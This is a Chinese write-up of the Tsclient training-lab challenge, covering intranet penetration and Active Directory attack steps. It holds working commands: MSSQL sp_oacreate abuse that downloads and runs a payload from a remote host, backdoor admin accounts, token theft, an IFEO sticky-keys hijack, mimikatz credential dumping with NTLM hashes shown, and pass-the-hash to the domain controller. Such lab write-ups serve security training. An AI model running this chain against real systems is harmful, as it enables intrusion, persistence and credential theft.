# 春秋云镜 & Tsclient

## 靶标介绍

`Tsclient`是一套难度为中等的靶场环境，完成该挑战可以帮助玩家了解内网渗透中的代理转发、内网扫描、信息收集、特权提升以及横向移动技术方法，加强对域环境核心认证机制的理解，以及掌握域环境渗透中一些有趣的技术要点。该靶场共有`3`个`flag`，分布于不同的靶机。

## 攻击流程

利用`Nmap`对给出的`IP`进行扫描，发现存在`MSSQL`服务，利用`fscan`进行探测，发现存在弱口令`sa`/`1qaz!QAZ`。



```
(icmp) Target 39.98.122.85    is alive
[*] Icmp alive hosts len is: 1
39.98.122.85:80 open
39.98.122.85:1433 open
[*] alive ports len is: 2
start vulscan
[*] WebTitle: http://39.98.122.85       code:200 len:703    title:IIS Windows Server
[+] mssql:39.98.122.85:1433:sa 1qaz!QAZ
```

利用`sp_oacreate`来上线马子，然后直接MSF提权到`NT AUTHORITY\SYSTEM`。

```sql
# 判断SP_OACREATE状态，存在返回1
select count(*) from master.dbo.sysobjects where xtype='x' and name='SP_OACREATE'

# 启用SP_OACREATE
EXEC sp_configure 'show advanced options', 1;   
RECONFIGURE WITH OVERRIDE;   
EXEC sp_configure 'Ole Automation Procedures', 1;   
RECONFIGURE WITH OVERRIDE;

# 将certutil.exe复制到C:\Windows\Temp\目录下并重命名
declare @o int exec sp_oacreate 'scripting.filesystemobject', @o out exec sp_oamethod @o, 'copyfile',null,'C:\Windows\System32\certutil.exe' ,'C:\Windows\Temp\h3.exe';

# 远程下载马子
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'C:\Windows\Temp\h3.exe -urlcache -split -f "http://192.168.21.42:9999/1.exe" C:\Windows\Temp\1.exe'

# 利用forfiles来运行马子
declare @runshell INT Exec SP_OACreate 'wscript.shell',@runshell out Exec SP_OAMeTHOD @runshell,'run',null,'forfiles /c C:\Windows\Temp\1.exe';
```



添加后门用户，开远程桌面上去，在`C:\Users\Administrator\flag`目录下读到`flag01.txt`：`flag{5f653eba-dc89-4137-a716-8b25e9623a68}`。

```bash
net user Hacker qwer1234! /add
net localgroup administrators hacker /add
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
```



接着利用同样的方式，下载一下`fscan`，收集网段信息。

```
(icmp) Target 172.22.8.18     is alive
(icmp) Target 172.22.8.15     is alive
(icmp) Target 172.22.8.31     is alive
(icmp) Target 172.22.8.46     is alive
[*] Icmp alive hosts len is: 4
172.22.8.46:445 open
172.22.8.18:1433 open
172.22.8.31:445 open
172.22.8.15:445 open
172.22.8.18:445 open
172.22.8.46:139 open
172.22.8.31:139 open
172.22.8.15:139 open
172.22.8.18:139 open
172.22.8.31:135 open
172.22.8.46:135 open
172.22.8.15:135 open
172.22.8.18:135 open
172.22.8.46:80 open
172.22.8.18:80 open
172.22.8.15:88 open
[*] alive ports len is: 16
start vulscan
[*] NetInfo:
[*]172.22.8.31
   [->]WIN19-CLIENT
   [->]172.22.8.31
[*] NetInfo:
[*]172.22.8.46
   [->]WIN2016
   [->]172.22.8.46
[*] NetInfo:
[*]172.22.8.18
   [->]WIN-WEB
   [->]172.22.8.18
   [->]2001:0:348b:fb58:c1f:38ed:d89d:85aa
[*] NetBios: 172.22.8.31     XIAORANG\WIN19-CLIENT         
[*] NetBios: 172.22.8.15     [+] DC:XIAORANG\DC01           
[*] NetInfo:
[*]172.22.8.15
   [->]DC01
   [->]172.22.8.15
[*] NetBios: 172.22.8.46     WIN2016.xiaorang.lab                Windows Server 2016 Datacenter 14393
[*] WebTitle: http://172.22.8.18        code:200 len:703    title:IIS Windows Server
[*] WebTitle: http://172.22.8.46        code:200 len:703    title:IIS Windows Server
[+] mssql:172.22.8.18:1433:sa 1qaz!QAZ
```

根据提示`Maybe you should focus on user sessions...`，查看一下当前用户会话，发现存在用户`John`，并且也是`RDP`远程到当前主机的。




执行命令`netstat`查看连接信息，发现是从内网`172.22.8.31 XIAORANG\WIN19-CLIENT`主机上连过来的。



`Tsclient`是通过远程桌面连接到远程计算机时，在远程计算机“网上邻居”中出现的一个机器名，实际为远程计算机分配给本机的名称。针对`RDP`协议的攻击手法可以看看[红蓝对抗中RDP协议的利用](https://www.geekby.site/2021/01/%E7%BA%A2%E8%93%9D%E5%AF%B9%E6%8A%97%E4%B8%ADrdp%E5%8D%8F%E8%AE%AE%E7%9A%84%E5%88%A9%E7%94%A8)

尝试模拟`John`用户的令牌，利用工具[SharpToken](https://github.com/BeichenDream/SharpToken)，这里还需要安装一下`.NET Framework 3.5`，但是最后依旧还是执行了没反应。



```bash
SharpToken.exe execute "WIN-WEB\John" cmd true
```

尝试`MSF`的模块`incognito`未成功，但是可以窃取指定进程，这里窃取`John`用户的进程。

```bash
# 加载incognito
load incognito
# 列举token
list_tokens -u

# 窃取指定进程
steal_token pid
# 返回之前的token
rev2self
```



发现存在共享文件夹，读取一下，里面有一个敏感文件，查看后获取一个凭证和一个提示。

```
xiaorang.lab\Aldrich:Ald@rLMWuy7Z!#

Do you know how to hijack Image?
```



提示指明了要打`IFEO`劫持，即镜像劫持，尝试登录发现提示用户密码已过期，利用`smbpasswd`来修改密码。



```bash
python3 smbpasswd.py xiaorang.lab/Aldrich:'Ald@rLMWuy7Z!#'@172.22.8.15 -newpass 'H3rmesk1t@666'
```



发现只能通过`172.22.8.15`来远程修改密码，但是登录的时候却显示没权限，只能登录上`172.22.8.46`。



但只有普通用户权限，结合提示，通过修改注册表来打`IFEO`劫持。

```powershell
get-acl -path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options" | fl *
```

发现`NT AUTHORITY\Authenticated Users`可以修改注册表，即所有账号密码登录的用户都可以修改注册表。



利用这个性质，修改注册表，使用粘滞键来打`IFEO`劫持。

```powershell
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "C:\Windows\System32\cmd.exe"
```



开始菜单锁定用户，开启粘滞键后，连按五次`shift`后得到`Shell`。


继续添加后门用户，然后远程上去，在`C:\Users\Administrator\flag`目录下读到`flag02.txt`：`flag{daf4521b-3434-4d3a-aa9b-71e53e0c6079}`。

```bash
net user hacker2 qwer1234! /add
net localgroup administrators hacker2 /add
```





查询域内信息，发现`WIN2016$`在域管组内，即机器账户可以`Hash`传递登录域控。

```bash
net group "domain admins" /domain
```



利用前面的`IFEO`劫持上线一个`SYSTEM`权限的`Shell`到`MSF`上。



接着利用`mimikatz`抓一下`Hash`。

```bash
meterpreter > kiwi_cmd sekurlsa::logonpasswords

......
Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : WIN2016$
Domain            : XIAORANG
Logon Server      : (null)
Logon Time        : 2023/12/1 21:05:27
SID               : S-1-5-20
        msv :
         [00000003] Primary
         * Username : WIN2016$
         * Domain   : XIAORANG
         * NTLM     : 23d4fee9803cc89813fd6bbf00e2c939
         * SHA1     : 6e5d40d21b3eb8be4e263524d3f0494f07f82cdd
        tspkg :
        wdigest :
         * Username : WIN2016$
         * Domain   : XIAORANG
         * Password : (null)
        kerberos :
         * Username : win2016$
         * Domain   : XIAORANG.LAB
         * Password : 59 a6 05 a5 d5 f3 6d 98 16 7b 8b a4 df dd e2 40 b5 d4 9c 19 43 e8 e7 f6 d2 56 ea 24 2f e6 73 fe 2f 9e 43 80 e8 d6 78 ad 61 c4 56 a4 d3 62 86 a8 93 9e 75 4a 1f f8 36 b7 45 89 18 e6 31 e1 82 07 7f e6 71 fe df 34 b4 f4 fd 95 44 b6 bd bb b8 51 a7 24 3d f0 16 ce 57 ae c7 23 a4 71 a0 36 8b d2 01 26 e9 e8 00 89 23 b3 7e d3 10 7d 0d 45 d2 6a a9 2d 6c 01 c8 94 77 83 cd 89 dd 32 72 19 c7 92 e2 06 23 6c fd 3f 52 a2 e2 0a 43 e1 c2 2b fb 3d 56 f8 e5 b6 da e6 89 e2 72 3a ce 59 b3 49 93 d0 51 01 63 07 66 40 71 2c 5d 25 79 c8 98 3b 49 77 cc 7a c8 98 60 51 03 0d dc a7 05 53 84 8b 0b 7f cb cf 8f fb 39 e6 dc e5 09 2a 83 27 d3 f6 9b b4 cc 92 69 68 cd c3 e9 11 c4 8e 9b 96 fe 5d 1b 6c 73 6d b8 48 3a 52 fe 32 f5 25 89 25 50 bb 36 f9 
        ssp :
        credman :
......
```

获取到域内机器账户的`NTML`，接着利用`mimikatz`注入机器账户的`Hash`到`lsass`进程中，接着横向到`172.22.8.15`，在`C:\Users\Administrator\flag`目录下读到`flag03.txt`：`flag{d9891234-e256-4b49-8b71-8f007d381be1}`。

```bash
privilege::debug
sekurlsa::pth /user:WIN2016$ /domain:xiaorang.lab /ntlm:23d4fee9803cc89813fd6bbf00e2c939
```



